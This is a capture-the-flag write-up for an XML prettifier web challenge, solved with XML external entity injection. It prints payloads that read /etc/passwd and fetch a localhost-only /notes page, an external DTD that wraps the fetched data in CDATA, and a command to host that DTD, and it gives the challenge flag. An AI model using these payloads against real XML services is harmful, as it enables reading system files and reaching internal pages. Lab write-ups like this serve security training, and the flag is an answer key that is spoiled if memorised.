




# XML Prettifier (4)

Hi, packet inspector,

some former employe of Mysterious Delivery Ltd. has created prettifier for XML code. It is polite to provide information to the AI in nicely formatted XML, isn't it? Rumors say that the employee also left some crucial information somewhere on the web.

Find the crucial information on webpage [http://prettifier.mysterious-delivery.tcc:50000](http://prettifier.mysterious-delivery.tcc:50000).

May the Packet be with you!

## Hints

- Use VPN to get access to the web.

## Solution

After visiting the page we can see that there are 2 paths, [/prettier](http://prettifier.mysterious-delivery.tcc:50000/prettier) and [/notes](http://prettifier.mysterious-delivery.tcc:50000/notes).



> **Forbidden**, IP filter is active, content is accessible only from localhost.

I guess we probably need to get content from [/notes](http://prettifier.mysterious-delivery.tcc:50000/notes) if we want the flag.



Let's see what this XML prettier can do.

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<element>&xxe;</element>
```


Getting `/etc/passwd` is possible, but it is useless for us. What about the [/notes](http://prettifier.mysterious-delivery.tcc:50000/notes) page?

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://localhost:50000/notes"> ]>
<element>&xxe;</element>
```



We ran into parsing errors. But we can solve this problem, [this page](https://dzone.com/articles/xml-external-entity-xxe-limitations) helped me a lot to understand how to solve it.

First, we have to make [.dtd file](attack.dtd):

```dtd
<!ENTITY % file SYSTEM "http://localhost:50000/notes">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>">
```



Second, we have to make an http server in our directory with [.dtd file](attack.dtd).

```
> python3 -m http.server

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Now we're going to try it again, just replace `http://localhost:50000/notes` with our server.


`FLAG{GG53-5U3w-VT8F-qB31}`
